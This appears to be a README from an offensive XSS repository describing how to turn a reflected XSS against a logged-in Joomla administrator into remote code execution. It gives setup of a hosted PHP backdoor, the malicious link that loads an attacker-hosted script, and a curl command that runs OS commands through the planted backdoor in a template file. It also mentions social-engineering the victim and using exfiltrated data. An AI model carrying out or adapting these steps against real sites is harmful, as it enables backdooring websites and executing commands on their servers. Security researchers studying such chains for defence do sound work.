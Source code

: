 # [authn] Patch File (RCE)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`patchFileJoomla.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

2. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/patchFileJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

5. [post exploit] execute OS command

    ```
    curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on exfiltrated data (obtained via `GET` request, when fetching `bd.txt`)

6. [restore file] restore file via GUI

    *Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 5 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/PatchFile/screenshots/Joomla_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/PatchFile/screenshots/Joomla_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e80efadc-b573-4f9a-9f30-806967fd00a5

